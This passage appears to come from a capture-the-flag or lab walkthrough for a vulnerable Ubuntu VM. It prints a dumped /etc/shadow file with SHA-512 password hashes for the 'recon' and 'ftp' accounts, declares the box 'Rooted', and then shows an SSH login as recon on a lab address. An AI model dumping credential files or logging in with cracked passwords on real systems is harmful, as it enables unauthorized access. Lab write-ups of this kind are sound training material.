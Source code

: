 ```shell
sys:*:18186:0:99999:7:::
sync:*:18186:0:99999:7:::
games:*:18186:0:99999:7:::
man:*:18186:0:99999:7:::
lp:*:18186:0:99999:7:::
mail:*:18186:0:99999:7:::
news:*:18186:0:99999:7:::
uucp:*:18186:0:99999:7:::
proxy:*:18186:0:99999:7:::
www-data:*:18186:0:99999:7:::
backup:*:18186:0:99999:7:::
list:*:18186:0:99999:7:::
irc:*:18186:0:99999:7:::
gnats:*:18186:0:99999:7:::
nobody:*:18186:0:99999:7:::
systemd-timesync:*:18186:0:99999:7:::
systemd-network:*:18186:0:99999:7:::
systemd-resolve:*:18186:0:99999:7:::
messagebus:*:18186:0:99999:7:::
syslog:*:18186:0:99999:7:::
_apt:*:18186:0:99999:7:::
uuidd:*:18186:0:99999:7:::
tcpdump:*:18186:0:99999:7:::
landscape:*:18186:0:99999:7:::
pollinate:*:18186:0:99999:7:::
sshd:*:18267:0:99999:7:::
systemd-coredump:!!:18267::::::
recon:$6$e3kpkVkMU5.i8kCu$GdUZ5tPcXWBbXaFDekVWqMB.CDBWbZAdW4VU5acfPTjpki4lqckCofK6qjfO7dF0AMBNA.Lw61Kr1IXczvTLM.:18271:0:99999:7:::
lxd:!:18267::::::
ftp:$6$XzGaISMJDIacZa9Y$DU1IjrBSBR11rWcc//ovH1qS082XDeC1Xi5Z8LHdjl.K..drbahsOmQxSVIeuwXJwVYsobC8BXWtnnKfzi.80.:18271:0:99999:7:::
mysql:!:18271:0:99999:7:::
dnsmasq:*:18271:0:99999:7:::
```

Rooted.

## SSH

```shell
ssh recon@$RHOST
recon@192.168.56.60's password:
Welcome to Ubuntu 19.10 (GNU/Linux 5.3.0-24-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat 01 Jan 2022 11:17:26 AM UTC

  System load:  0.05              Processes:             130
  Usage of /:   31.5% of 9.22GB   Users logged in:       0
  Memory usage: 7%                IP address for enp0s3: 192.168.56.60
  Swap usage:   0%

  => There is 1 zombie process.


31 updates can be installed immediately.
0 of these updates are security updates.
To see these additional updates run: apt list --upgradable

```